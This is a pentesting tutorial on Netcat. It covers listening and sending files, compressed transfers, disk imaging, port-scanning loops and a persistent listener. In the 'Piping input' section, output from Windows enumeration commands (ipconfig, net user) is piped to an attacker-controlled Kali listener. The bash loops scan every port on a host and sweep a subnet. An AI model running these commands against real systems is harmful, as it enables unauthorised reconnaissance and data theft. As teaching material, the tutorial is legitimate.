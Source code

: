 ```yaml
---
title: "Netcat"
date: "2022-06-08"
description: "This article looks at Netcat, a valuable tool in the pentesters toolbox. Hobbit released the original Netcat in 1995, but it hasn’t been maintained despite its popularity. It can sometimes be hard to find a copy of the v1.10 source code. The flexibility and usefulness of this tool prompted the Nmap Project to produce Ncat, a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more."
coverimage: NETCAT.jpg
tags: netcat
published: true
---
```


# Netcat

First some brief points about Netcat
- All official versions are free of charge
- Works natively on Linux.
- Works natively on Apple Mac OS X.
- Works natively on Microsoft Windows.
- Features a command-line interface.
- Source code available for inspection.
- General-purpose tools
- Packet crafting tools

The `ncat` tool is a much better option in place of netcat or nc. 

We think `ncat` is better because of its support for multiple protocols and simultaneous connections and SSL.


## Overview

This simple utility reads and writes data across TCP or UDP network connections. It is designed to be a reliable back-end tool to use directly or easily drive by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need, including port binding to accept incoming connections.

> Netcat can operate in environments where you have low privileges, plus it is a standalone binary, meaning you can upload it to an environment and run it as is.
> Be warned that file transfers using Netcat are not encrypted, anyone on the network can grab what you are sending, so use this only on trusted networks.

## Standard Listen and Send

setup netcat in listening mode and save whatever is received to `in.txt`
```
root@box:/tmp/netcat# nc -w 1 -l -p 3000 > in.txt
```

From the sending end, we can pipe in a file called `out.txt` and send it to our listener.
```
nc -w 3 [destination] 3000 < out.txt
```

## Piping input

We can send data by sending output through a pipe to Netcat. Here we are outputting a file, but it could be several items.
```
C:\Documents and Settings\user> type c:\test.txt | c:\nc.exe 192.168.2.8 3000 -w1
```

On our kali box, we can set a while loop like follows.
```
root@evilsaint:/pentesting/enum# while true; do nc -w 4 -lvp 4321 >> enum.txt; done
```

And we can pipe enumeration commands back to our box.
```
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>ipconfig | nc64.exe 10.1.1.5 4321 -w 3
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>net user | nc64.exe 10.1.1.5 4321 -w 3
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>net account | nc64.exe 10.1.1.5 4321 -w 3
```

## Send with Compression (Linux to Linux)

On the receiving end
```
nc -l -p 1234 | uncompress -c | tar xvfp -
```

On the sending end
```
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## Sending a harddrive

It is possible using Netcat to pipe a hardrive

On the sender end run
```
dd if=/dev/hda3 | gzip -9 | nc -l 3333
```

On the receiver end,
```
nc [destination] 3333 | pv -b > hd-image.img.gz
```

### Port Scanning with Netcat

TCP scan of ports 3385 to 3395
```
nc -nvv -w 1 -z 10.0.0.1 3385-3395
```

UDP scan of ports 3385 to 3395
```
nc -unvv -w 1 -z 10.0.0.1 3385-3395
```

Small Bash Loop to loop through all the ports from 1 to 65535 for one IP
```
for i in $(seq 1 65535); do nc -nv -w 1 -z 10.0.0.1 $i ; done
```

Small Bash Loop to loop through all the IPs on our subnet and scan for ports 21-25
```
for i in {1..254}; do nc -vv -n -w 1 10.0.0.$i 21-25 -z; done
```

| Option | Description |
| --- | --- |
| -n | don't resolve first just use the IP address and don't try and use DNS to get a hostname |
| -vv | single -v is verbose, double v -vv is extra verbosity. |
| -u | UDP mode. |
| -w | equals the timeout in seconds for net reads |
| -z | Zero I/O mode used for scanning. |

### Makeshift Permanent Netcat Listener

`nohup` is a program you can use to run your application with such that its stdout/stderr can be sent to a file instead and such that closing the parent script won’t SIGHUP the child. However, you need to have the foresight to use it before starting the application. Because of how `nohup` works, you can’t just apply it to a running process.

`disown` is a bash builtin that removes a shell job from the shell’s job list. This means that you can’t use `fg`, `bg` on it anymore, but more importantly, when you close your shell, it won’t hang or send a SIGHUP to that child anymore. Unlike `nohup`, disown is used after the process has been launched and backgrounded.

Make a Netcat listener persistent.
```
while(1) nohup netcat -lvp 4444
```